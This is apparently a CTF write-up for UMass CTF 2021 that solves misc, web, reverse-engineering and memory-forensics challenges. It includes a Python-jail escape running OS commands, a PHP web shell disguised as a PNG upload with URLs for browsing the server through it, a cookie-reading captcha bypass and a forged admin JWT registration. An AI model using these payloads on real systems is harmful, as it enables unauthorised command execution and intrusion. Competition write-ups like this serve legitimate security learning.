


# UMass CTF 2021

## misc
### Discord

Join their discord server https://discord.gg/EhBJhbDcjc you can find the flag in
the description of the general channel.

Flag: `UMASS{discord_is_better_than_irc_change_my_mind}`

### Scan Me

In this challenge, we get an XCF file which apparently is used in the image
editing software GIMP. So we install gimp and open the file in it. There are
two layers in the image. After hiding the first layer we see a QR code under it
which is slightly broken. I just copied one of the big corner squares and it
worked.



Flag: `UMASS{QR-3Z-m0d3}`

### ekrpat

It is a python jail in which we only get one chance for input. The first garbled
text is written using a dvorak keyboard mapped to qwerty. It is simply asking us
to type 'dvorak' for the first prompt and our payload in the second.

```
$ nc 34.72.64.224 8083
Frg-k. xprt.b mf jre.! >ojal. ,cydrgy yd. d.nl ru .kanw .q.jw cmlrpyw rl.bw row p.aew ofoy.mw abe ,pcy.v Ucpoyw .by.p -ekrpat-v Frg ,cnn yd.b i.y abryd.p cblgy ,dcjd frg jab go. ypf yr xp.at rgy ru yd. hacnv
>>> dvorak
>>> __builtins__.__dict__['__IMPORT__'.lower()]('OS'.lower()).__dict__['SYSTEM'.lower()]('ls')
-snip-
flag
-snip-
```

```
$ nc 34.72.64.224 8083
Frg-k. xprt.b mf jre.! >ojal. ,cydrgy yd. d.nl ru .kanw .q.jw cmlrpyw rl.bw row p.aew ofoy.mw abe ,pcy.v Ucpoyw .by.p -ekrpat-v Frg ,cnn yd.b i.y abryd.p cblgy ,dcjd frg jab go. ypf yr xp.at rgy ru yd. hacnv
>>> dvorak
>>> __builtins__.__dict__['__IMPORT__'.lower()]('OS'.lower()).__dict__['SYSTEM'.lower()]('cat flag')
UMASS{dvorak_rules}
```

Flag: `UMASS{dvorak_rules}`


## web
### Hermit - Part 1

We craft and upload a special file called `shell.png`:

```
ÿØÿà
[pre]
&lt;?php passthru($_GET['c']); ?&gt;
[/pre]
```

Then we simply go around the filesystem looking for the flag using the c param:

```
http://104.197.195.221:8086/show.php?filename=oUVGBv&c=ls%20-l%20/home/hermit/
-r-------- 1 hermit hermit 42 Mar 26 02:50 /home/hermit/userflag.txt

http://104.197.195.221:8086/show.php?filename=oUVGBv&c=cat%20/home/hermit/userflag.txt
UMASS{a_picture_paints_a_thousand_shells}
```

### PikCha

In this challenge, we are given a link to a web page in which an image of four
pokemons appears and we need to enter their pokemon index number in the text box
below separated by spaces. Luckily for us, the answer is already given as part
of the cookie we receive.

I wrote a python script to automate this for us since there are 500 of such
images that we need to successfully answer and decoding and going about it
manually would take a lot of time.

```
import requests
import base64
import re

s = requests.Session() 
r = s.get('http://104.197.195.221:8084/')

for i in range(500):
    a = base64.b64decode(r.cookies['session'].split('.')[0] + '===').decode()
    f = re.findall('\[(.*)\]', a)[0]
    l = f.split(',')
    r = s.post('http://104.197.195.221:8084/', data = {'guess': ' '.join(l)})
    print(r.text)
```

Flag: `UMASS{G0tt4_c4tch_th3m_4ll_17263548}`

### Heim

In this challenge, we can "register" on the given website with our Viking name.
After that we get an authorization JWT. Taking a hint from BEARER written on the
home page, I inserted the JWT in the HTTP request to the home page as part of
the Authorization: Bearer token header.

This redirects us to a another page /heim in which we get the entire list of
endpoints. One of those endpoints is /flag. When we try to visit flag with our
own account, it says that only AllFather Odin is allowed here. So we go back to
the registration and register as Odin. Now if we put the JWT in the bearer and
visit the flag page, we are granted access.

Flag: `UMASS{liveheim_laughheim_loveheim}`

### Hermit - Part 2

```
$ nc 34.121.84.161 8087
SSH-2.0-OpenSSH_7.9p1 Debian-10+deb10u2
^C
```


## rev
### easteregg

We get an ELF 64-bit binary. It is an adventure game. After decompiling it we
see that there is a special input command "jhiezetfmvirlnjfbobk" which when
inserted will set a variable to 1.

```
else if ( !strcmp(s1, "jhiezetfmvirlnjfbobk") )
{
  JHIEZETFMVIRLNJFBOBK = 1;
}
```

When this variable is set, the following code will run:

```
if ( JHIEZETFMVIRLNJFBOBK )
{
  for ( i = 0; i <= 34; ++i )
    putchar(COJASZQHPZXKLAPHRHOK[i] ^ LHEIBZNXEKQSAPHHUWTQ[i]);
  putchar(10);
}
```

I wrote a simple python script to XOR the flag, instead of figuring out how to
do it in the game:

```
x = [ 0x12, 0x18, 0x08, 0x0A, 0x10, 0x37, 0x37, 0x66, 0x28,
        0x17, 0x78, 0x60, 0x67, 0x29, 0x18, 0x26, 0x7, 0x2B,
        0x37, 0x28, 0x0B, 0x35, 0x76, 0x37, 0x20, 0x11, 0x2F,
        0x37, 0x24, 0x64, 0x37, 0x2A, 0x7A, 0x3E, 0x35 ]
y = 'GUIYCLZVEHIPWBGOXHVFTGEVDNNDWWZHKGH'


s = ''
for i,j in zip(x,y):
    s += chr(i^ord(j))

print(s)
```

Flag: `UMASS{m0m_100k_i_can_r3ad_ass3mb1y}`

## forensices
### notes

Here we get a memdump of some Windows machine. We determine the profile using
volatility's imageinfo function:

```
$ ./volatility -f image.mem imageinfo
-snip-
Suggested Profile(s) : Win7SP1x64
-snip-
```

Then we take a screenshot:

```
$ ./volatility -f image.mem  --profile=Win7SP1x64 --dump-dir . screenshot
```



We see that notepad is open with a file `passwords.txt` so we'll dump notepad's
process memory and see if we can find the flag there.

```
$ ./volatility -f image.mem --profile=Win7SP1x64 pslist | grep notepad
0xfffffa8000dd0060 notepad.exe            2696   2288      4      309      1      0 2021-03-20 17:59:34 UTC+0000

$ ./volatility -f image.mem --profile=Win7SP1x64 memdump --dump-dir . -p 2696
```

Once we have the process dump, we can grep for the flag:

```
$ strings -e l ./2696.dmp | grep "UMASS" -B 10 -A 10 | vim -
```

Flag: `UMASS{$3CUR3_$70Rag3}`

## chains

Collatz problem
